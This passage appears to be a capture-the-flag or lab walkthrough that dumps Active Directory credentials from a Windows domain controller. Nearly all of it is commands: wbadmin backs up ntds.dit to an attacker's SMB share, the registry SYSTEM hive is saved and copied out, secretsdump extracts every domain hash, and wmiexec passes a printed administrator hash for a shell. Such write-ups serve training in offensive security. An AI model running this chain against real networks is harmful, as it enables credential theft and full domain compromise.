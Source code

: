 On the Win-Rm shell, we can backup the NTDS folder with wbadmin.
```shell
echo "Y" | wbadmin start backup -backuptarget:\\10.10.14.3\smb -
include:c:\windows\ntds
```

Next, retrieve the version of the backup.
```powershell
wbadmin get versions
```

We can now restore the NTDS.dit file, specifying the backup version.
```shell
echo "Y" | wbadmin start recovery -version:10/01/2020-14:23 -itemtype:file -
items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreac
```

We need to export the system hive too, and transfer both this and the NTDS.dit to our local machine.

```powershell
reg save HKLM\SYSTEM C:\system.hive
```

Copy the files to our box via our mounted SMB drive.

```powershell
cp ntds.dit \\10.10.14.3\smb\NTDS.dit
cp system.hive \\10.10.14.3\smb\system.hive
```

Next, we can extract all the hashes in the domain using Impacketsecretsdump.py.

```powershell
secretsdump.py -ntds NTDS.dit -system system.hive LOCAL
```

With the primary domain administrator hash, we can use wmiexec to get a shell (if we use psexec, the Administrator security context will not be preserved, and we will be NT AUTHORITY SYSTEM, which will not allow us to decrypt the file).

```powershell
wmiexec.py -hashes :184fb5e5178480be64824d4cd53b99ee administrator@10.10.10.192
```

